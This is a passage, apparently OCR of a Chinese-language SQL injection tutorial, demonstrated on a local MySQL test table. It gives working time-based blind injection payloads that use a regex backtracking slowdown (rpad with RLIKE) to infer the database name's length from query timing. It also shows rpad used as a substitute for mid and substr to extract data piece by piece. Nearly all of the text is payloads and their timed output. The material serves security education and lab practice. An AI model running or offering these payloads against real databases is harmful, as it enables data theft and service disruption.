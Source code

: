 ```
| 0                                                           |
+-------------------------------------------------------------+
1 row in set
Time: 3.869s
```

```
select * from table1 where id='1' or if(length(database())>1,rpad('a',300000,'a') RLIKE concat(repeat('(a.*)+',500),'b'),0);
+----+----------+----------+-----------------+
| id | username | password | email           |
+----+----------+----------+-----------------+
| 1  | admin    | admin!@# | admin@admin.org |
+----+----------+----------+-----------------+
1 row in set
Time: 3.297s
select * from table1 where id='1' or if(length(database())<1,rpad('a',300000,'a') RLIKE concat(repeat('(a.*)+',500),'b'),0);
+----+----------+----------+-----------------+
| id | username | password | email           |
+----+----------+----------+-----------------+
| 1  | admin    | admin!@# | admin@admin.org |
+----+----------+----------+-----------------+
1 row in set
Time: 0.009s
```

在某些情况下,`rpad`可作为`mid`和`substr`的替换

>`0x0`指代的是`\x00`

```
mysql root@localhost:sql_injection_test> select * from table1;
+----+----------+----------+-----------------+
| id | username | password | email           |
+----+----------+----------+-----------------+
| 1  | admin    | admin!@# | admin@admin.org |
| 2  | tim      | 123456   | tim@qq.com      |
| 3  | mike     | asdfqwer | mike@gmail.com  |
| 4  | mike     | asdfqwer | mike@gmail.com  |
+----+----------+----------+-----------------+
4 rows in set
Time: 0.008s
mysql root@localhost:sql_injection_test> select rpad((select group_concat(id) from table1),1,0x0)
+---------------------------------------------------+
| rpad((select group_concat(id) from table1),1,0x0) |
+---------------------------------------------------+
| 1                                                 |
+---------------------------------------------------+
1 row in set
Time: 0.008s
mysql root@localhost:sql_injection_test> select rpad((select group_concat(id) from table1),2,0x0)
+---------------------------------------------------+
| rpad((select group_concat(id) from table1),2,0x0) |
+---------------------------------------------------+
| 1,                                                |
+---------------------------------------------------+
1 row in set
Time: 0.007s
mysql root@localhost:sql_injection_test> select rpad((select group_concat(id) from table1),8,0x0)
+---------------------------------------------------+
| rpad((select group_concat(id) from table1),8,0x0) |
+---------------------------------------------------+
| 1,2,3,4                                          |
+---------------------------------------------------+
```